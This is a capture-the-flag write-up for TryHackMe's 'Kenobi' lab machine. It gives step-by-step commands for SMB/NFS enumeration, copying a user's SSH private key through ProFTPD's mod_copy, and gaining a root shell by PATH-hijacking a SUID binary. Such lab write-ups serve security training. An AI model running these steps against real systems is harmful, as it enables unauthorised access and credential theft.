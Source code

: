 ## Kenobi room from try hack me.

## Difficulty: Easy

## www.tryhackme.com

## Nmap

First we have to scan the machine with nmap, this can be done by using the command `nmap -sC -sV {IP}`.

This will then give us the first answer of how many ports are open on the machine, which is 7.

***

## Samba

We see that samba is running, we need to enumerate the shares using the command `nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse {ip}`.

![image](https://user-images.githubusercontent.com/66257304/133940755-ab5191f3-f116-4e85-afa1-3ab87bbba2f3.png)

We now see that there are 3 shares which is the answer to the next question.

***

## Smbclient

We now can inspect the shares using the command `smbclient //<ip>/anonymous`.

Now we can list the files and answer the next question.

We now need to download the file so we can open it, we can do this using the command `smbget -R smb://<ip>/anonymous`.

Now we have opened the file we can see the ftp port at the top of the file.

We saw in the nmap scan before that rpc was running on port 111, we can enumerate this using the command `nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount {ip}`.

We can now see the mount.

## Ftp 

We can now connect to the machine on the ftp port using the command `nc {ip} 21`.

We should see the version used in the output.

***

We can use searchsploit to look for exploits, run the command `searchsploit proftpd 1.3.5` to see all the known exploits.

We can copy kenobi's private key, lets do that using the commands, 
`SITE CPFR /home/kenobi/.ssh/id_rsa`
`SITE CPTO /var/tmp/id_rsa`

We can now mount the /var/tmp directory to our machine using the commands,
`sudo mkdir /mnt/kenobiNFS`
`mount ip:/var /mnt/kenobiNFS`
`ls -la /mnt/kenobiNFS`

Use the command `cp /mnt/kenobiNFS/tmp/id_rsa .` to copy kenobi's private key to our current directory.

Lets now ssh into the machine using the commands, 
`sudo chmod 600 id_rsa`
`ssh -i id_rsa kenobi@ip`

Now we can get the user flag.

## Privelage Escalation

Now we need to escalate our privs to root to get the root flag.

Lets look at the suid binarys using the command `find / -perm -u=s -type f 2>/dev/null`

![image](https://user-images.githubusercontent.com/66257304/133941328-27762d68-8edf-405b-b643-a625bc7877d7.png)

This one looks a bit weird, lets run it to see what it does, use the command `menu`.

![image](https://user-images.githubusercontent.com/66257304/133941346-539c0107-0bad-4488-bfa1-31b45ff6aca5.png)

Looks like we get 3 options, to run a status check, view the kernel version and to view ifconfig.

Lets run strings to see if theres anything we can use, use the command `strings /usr/bin/menu`.

![image](https://user-images.githubusercontent.com/66257304/133941441-73724f33-03f5-4999-8574-5b4812dbffd8.png)

We see that it is not using a full path, we can use this to our advantage.

Use the commands,

`echo /bin/sh > curl`
`chmod 777 curl`
`export PATH=/tmp:$PATH`
`/usr/bin/menu`

Now we should have a root shell and we can just go and get the root flag.




